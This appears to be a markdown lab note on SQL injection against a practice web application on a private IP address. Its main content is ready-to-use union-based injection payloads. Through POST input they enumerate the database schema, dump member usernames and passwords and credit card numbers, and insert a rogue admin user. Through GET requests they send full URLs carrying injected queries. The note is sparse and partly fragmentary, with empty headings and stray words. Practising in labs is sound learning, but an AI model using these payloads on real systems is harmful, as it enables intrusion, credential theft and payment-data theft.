





```sql
POST!
# Identify the number of columns through
RAM' union select 1,2#  

# Golden Statement. We need to use multiple to enumerate all information since there's only 2 available input
RAM' union select table_schema,table_name from information_schema.columns#
RAM' union select table_schema,column_name from information_schema.columns#
RAM' union select table_name,column_name from information_schema.columns#

column_name = Columns you can search within a table
table_name = Tables within a database
table_schema = Databases available

# Admin Credentials
RAM' union select username,password from sqlinjection.members#

# Products
RAM' union select name,description from sqlinjection.products#

# Version
RAM' union select 1,@@version#

# Credit Card
RAM' union select creditcard_number,id from sqlinjection.payments#

RAM' union select id,2 from sqlinjection.categories#

# Create an admin user
TOM', 'Friend', 'Friend', 1)#; 

```

Permissions:







GET

```sql
Look for the '1st category' link on the Categories page to get the ?category=1 in your URL

http://10.100.28.48/cases/productsCategory.php?category=1%20union%20select%20Table_schema,table_name,column_name%20from%20information_schema.columns

http://10.100.28.48/cases/productsCategory.php?category=1%20union%20select%20id,2,3%20from%20sqlinjection.orders

http://10.100.28.48/cases/productsCategory.php?category=1%20union%20select%201,comment,id%20from%20sqlinjection.share4

mime
data
```



Updated Map:


